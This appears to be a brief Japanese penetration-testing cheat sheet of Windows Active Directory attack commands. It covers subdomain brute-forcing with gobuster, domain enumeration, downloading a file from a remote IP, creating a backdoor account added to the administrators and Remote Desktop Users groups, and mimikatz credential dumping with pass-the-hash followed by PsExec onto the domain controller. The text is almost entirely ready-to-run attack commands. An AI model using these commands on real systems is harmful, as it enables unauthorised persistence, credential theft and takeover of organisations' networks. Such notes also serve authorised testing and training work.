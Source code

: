 ・サブドメイン検索
```
gobuster dns -d <dnsサーバのIP> -t 25 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
```
```
net user /domain
nslookup <domain>
```
・Download(Windows)
```
wget http://<IP>/<File> -OutFile <File>
```

・アカウントを作成し、RemoteDesktopUsersに追加
```
net user test password /add
net localgroup administrators test /add
net localgroup "Remote Desktop Users" test /add
net group /domain
net user /domain
```

・mimikatz.exe
```
privilege::debug
sekurlsa::logonpasswords

sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM hash>
.\PsExec64.exe -accepteula
.\PsExec64.exe \\dc cmd.exe
```
